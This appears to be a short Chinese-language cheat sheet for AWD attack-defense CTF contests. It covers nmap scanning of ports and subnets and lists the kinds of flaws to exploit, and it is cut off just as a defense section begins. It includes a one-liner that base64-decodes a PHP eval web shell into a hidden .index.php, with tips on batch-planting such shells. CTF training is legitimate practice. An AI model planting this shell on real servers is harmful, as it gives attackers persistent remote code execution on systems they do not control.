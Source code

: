 nmap

知道IP地址扫端口

```undefined
.\nmap 192.168.1.1 -p1-65535
```

扫C段

```undefined
.\nmap 192.168.1.1/24
```

根据ip列表扫，有一个ip地址列表，将这个保存为一个txt文件，和namp在同一目录下,扫描这个txt内的所有主机

```undefined
nmap -iL ip.txt
```

nmap扫描完毕后，win按住alt键

![img](https://img-blog.csdnimg.cn/8ebe5a37febc4550855e0e11ef439c66.bmp)

 只提取端口就行

## 漏洞利用

awd中存在较多的主要是以下几种漏洞

  命令执行，直接cat /flag，尽量混淆流量也可以通过命令执行执行上传一句话木马，直接用py脚    本批量传，美哉！

```bash
echo PD9waHAgZXZhbCgkX1JFUVVFU1RbJzEnXSk7ID8+Cg==|base64 -d>>.index.php



 



# <?php eval($_REQUEST['1']); ?>
```

文件读取，直接读取或者是伪协议方式读取flag

sql注入，数据库中有flag，或者sql注入写shell

文件上传，绕过黑白名单上传一句话，小马拉大马或者不死马

awd时间一般较短，所以漏洞不会太深，比较容易发现，有的会直接放几个明显的后门，考验选手们的手速（预留后门有时候会在很明显的目录，仔细观察就可以）

# 防御

防御主要包括三个监控：

文件监控

流量监控
